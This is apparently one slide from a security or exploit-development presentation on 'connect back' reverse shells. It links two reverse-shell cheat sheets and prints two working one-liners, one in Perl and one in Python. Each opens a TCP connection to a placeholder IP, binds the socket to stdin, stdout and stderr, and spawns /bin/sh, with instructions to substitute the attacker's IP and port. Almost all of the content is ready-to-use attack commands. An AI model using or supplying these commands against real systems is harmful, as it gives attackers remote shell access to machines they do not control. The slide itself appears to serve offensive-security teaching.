

# Other connect back shellcode
(non asm)
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html
Perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
replace 10.0.0.1 and p=1234 with attacker ip and port
Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
again.... replace 10.0.0.1 and p=1234 with attacker ip and port